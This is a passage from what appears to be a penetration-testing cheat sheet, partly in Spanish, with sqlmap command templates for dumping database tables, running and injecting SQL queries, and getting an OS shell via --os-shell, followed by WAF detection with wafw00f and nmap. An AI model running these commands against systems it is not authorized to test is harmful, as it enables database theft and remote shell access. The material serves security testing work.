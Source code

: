 ### \# Extract data

./sqlmap.py -u &lt;request-file&gt; -D &lt;db-name&gt; -T &lt;tbl-name&gt; -C &lt;col-name&gt; --dump

### \# Execute SQL Query

./sqlmap.py -u &lt;request-file&gt; --sql-query="&lt;sql-query&gt;"

### \# Append/Prepend SQL Queries

./sqlmap.py -u &lt;request-file&gt; --prefix="&lt;sql-query&gt;" --suffix="&lt;sql-query&gt;"

### \# Get backdoor access to sql server \| can give shell access

./sqlmap.py -u &lt;request-file&gt; --os-shell

### Usando Proxy y SSL

sqlmap -r request2.txt --proxy http://192.168.0.3:8080 --level=5 --risk=3 -v 3 --force-ssl -f --random-agent -a

## Detectar WAF

### WAFw00f

 Descargar [https://github.com/EnableSecurity/wafw00f](https://github.com/EnableSecurity/wafw00f)

 sudo python setup.py install

 wafw00f &lt;URL&gt;

![](.gitbook/assets/3.png)

### nmap http-waf-detect

info: [https://nmap.org/nsedoc/scripts/http-waf-detect.html](https://nmap.org/nsedoc/scripts/http-waf-detect.html)
